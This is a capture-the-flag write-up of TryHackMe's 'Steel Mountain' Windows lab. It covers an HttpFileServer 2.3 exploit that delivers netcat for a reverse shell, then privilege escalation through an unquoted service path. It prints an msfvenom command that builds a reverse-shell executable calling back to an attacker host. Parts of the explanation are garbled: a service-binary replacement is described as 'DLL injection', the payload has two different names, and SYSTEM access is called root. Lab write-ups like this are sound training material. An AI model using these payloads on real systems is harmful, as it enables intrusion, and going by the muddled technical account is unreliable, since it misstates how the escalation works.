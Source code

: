 ```yaml
---
title: Steel Mountains
author: X310t0x01
date: 2024-01-13 11:33:00 +0800
categories: [TryHackMe, PrivEsc, Windows, Mac OS]
tags: [TryHackMe]
pin: true
math: true
mermaid: true
---
```


# TryHackMe: Steel Mountain WriteUp (MAC OS)

The TryHackMe Steel Mountain challenge is a hands-on cybersecurity task, simulating a real-world penetration test against a Windows system. Participants engage in stages like reconnaissance, exploitation, and privilege escalation using tools like Nmap, Metasploit, and PowerShell scripts. The challenge focuses on exploiting vulnerabilities such as unquoted service paths and misconfigurations in HTTP File Server.

![Mr.Robot Wallpaer](https://mrwallpaper.com/images/hd/mr-robot-elliot-glitch-art-background-gb7xxlkeskgsf6be.jpg "MR.Robot Wallpaper")

# Port Enumeration Process
The port scanning process generates output that provides information about several open ports on a target system, including possible software versions associated with each port. During this scanning operation, I prefer to meticulously review the results, selecting those that I believe will be most beneficial for further investigation. Typically, I prioritize port 80, which is commonly used for HTTP, and its alternate, port 8080, by actively exploring their accessibility and response.

![PortScan](/Images/PortScan.png "PortScan")


However, for a comprehensive assessment, it's essential to extend the examination beyond HTTP-related ports. One critical aspect is to verify the status of SMB (Server Message Block) on port 445, which can yield a wealth of information if it's not adequately secured. Inadequate protection can potentially expose sensitive data and system vulnerabilities, making thorough scrutiny imperative for effective security assessment and potential mitigation.

![URLVuln](/Images/8080.png "URLVuln")

This situation has piqued our interest. The application identified is HttpFileServer 2.3. Initial login attempts with common combinations like 'admin:admin' and 'admin:password' have proven unsuccessful. However, a Google search reveals a known exploit for this version, utilizing a local HTTP server to deliver and execute netcat on the target system. The discovery of this exploit offers a new perspective. While conventional access attempts haven't worked, this exploit hints at a potential vulnerability in HttpFileServer 2.3 that we can explore. Though we haven't yet achieved access through regular means, the existence of this exploit presents an intriguing alternative. We should consider a deeper dive into its mechanics, assess its viability, and see if it can bypass the current access limitations. This revelation certainly adds an interesting dimension to our investigation

# Initial Breach Point in Security

![Script](/Images/Script.png "Script")

As per the exploit's instructions, we must host Netcat using an HTTP server and set up a Netcat listener for the reverse shell. I duplicated Netcat, placing it in a designated Desktop directory, while also configuring a Netcat listener in a separate terminal to capture the incoming reverse shell. To deliver the duplicated Netcat utility to the target system, I employed a Python Simple HTTP server, creating a discreet channel for secure transmission. This approach ensures controlled deployment, minimizing the risk of detection. Following these precise steps aligns with the exploit's methodology, enhancing our control and reducing the likelihood of detection, thereby increasing our chances of success.

![ncStep](/Images/ncStep.png "ncStep")

Based on the provided image, it's evident that during the initial execution of the exploit, we observed a GET request for downloading the Netcat executable. In case this step encounters issues, ensure that the HTTP server is operated from the directory where Netcat is located.

![UserLevel](/Images/UserLevel.png "UserLevel")

Executing the exploit using identical syntax results in obtaining a user-level shell attributed to the user 'bill.' This consistent outcome indicates the reliability of the exploit in providing access under these conditions

# Host Discovery

In my capacity as 'bill,' I encountered an obstacle while attempting to access the Administrators directory, resulting in an 'Access denied' message. Despite this setback, my investigation led me to discover the user flag within bill's user profile directories.

Following the recommended approach outlined in the walkthrough, I opted to leverage PowerShell to retrieve a Windows Privilege Escalation enumeration script known as 'winPEAS.' This script is instrumental in identifying potential misconfigurations within a specific service. To acquire 'winPEAS,' I employed a PowerShell one-liner, which also facilitated the retrieval of 'accesschk.exe.' This dual approach was employed to scrutinize the 'winPEAS' output for potential vulnerabilities. During my evaluation, I applied these tools to bill's Desktop directory, which exhibited the desired functionality as it was writable, allowing me to proceed with the enumeration process effectively.

![GetPeas](/Images/GetPeas.png "GetPeas")

Using 'winPEAS -h' reveals additional paths to pinpoint specific misconfigurations. Given the vulnerability identified in an unquoted service path in the walkthrough, I opted to focus on the 'servicesinfo' option.

![WinPeasC](/Images/WinPeasC.png "WinPeasC")

Multiple unquoted path services exist, but permission limitations may hinder editing or writing. To address this, accesschk.exe is a valuable resource. The results indicate that bill has control (pause, start, stop) over AdvancedSystemCareService9. This is crucial because even if we find an exploitable unquoted service path, the service's permissions can limit its usefulness. If the user lacks start/stop permissions, privilege escalation may be ineffective.

The AdvancedSystemCareService9 checks the unquoted path 'C:\Program Files (x86)\IObit\Advanced SystemCare' for executables. Since the path lacks quotes, Windows may misinterpret it as 'C:\Program.exe' or 'C:\Program Files (x86)\IObit\ASCService.exe.

To exploit this, we can create an executable named 'ASCService.exe' using 'msfvenom' and place it in 'C:\Program Files (x86)\IObit' since bill has write access there. Here's the command for that:

```powershell
msfvenom -p windows/shell_reverse_tcp LHOST=<YOUR IP> LPORT=<port> -f exe -e x86/shikata_ga_nai -o ASCService.exe
```
We've got all the pieces in place and have identified a potential Unquoted Service Path vulnerability. User 'bill' has control over the service, and 'bill' also has the ability to write to the binary path. Our 'Advanced.exe' reverse shell is now in the location where Windows will look when the service starts, and we've confirmed that the service runs with SYSTEM privileges.

![copyS](/Images/copyS.png "copyS")


After successfully delivering the payload to the target machine, our next objective is to execute a DLL injection on the system. In order to achieve this, we will replace the original service for the AdvanceSystemCareService9 with the one that has the service of ASCService.exe. This will enable us to carry out the necessary actions to complete our task.

![stop](/Images/stop.png "stop")


Following the completion of a specific task, I proceeded to stop the service that was running on the target machine. This provided me with an opportunity to restart the service, which enabled me to perform a DLL injection. By executing this technique, I was able to insert a custom DLL into the memory space of the target process and execute the code that I needed to accomplish my objective.

![start](/Images/start.png "start")

When I initially started the service, the payload we were using contained a DLL injection. This injection granted me root access to the machine on which I was working. As a result, I was able to obtain the root flag for the Steel Mountain TryHackMe box. It was a successful attempt that allowed me to gain control over the machine.

![root](/Images/root.png "root")


